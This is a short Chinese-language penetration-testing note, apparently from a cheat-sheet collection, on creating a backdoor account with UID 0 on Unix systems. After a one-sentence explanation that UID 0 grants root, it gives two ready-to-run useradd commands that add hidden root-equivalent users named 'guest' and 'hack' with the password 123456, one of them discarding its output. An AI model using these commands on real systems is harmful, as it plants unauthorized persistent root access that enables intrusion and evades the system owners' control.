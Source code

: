 ```yaml
---
title: uid 0用户添加
id: zhfly3501
---
```


## uid 0用户添加

在 Unix 体系下，UID 为 0 就是 root 权限。所以渗透的时候可以添加一个 UID 为 0 的用户作为后门。

```
useradd -p `openssl passwd 123456`  -o -u 0 guest
/usr/sbin/useradd -o -u 0 hack &>/dev/null && echo hack:123456 | /usr/sbin/chpasswd &>/dev/null 
```

![image](../img/f422dc548b58ae809e25d7a2a2a77db1.png)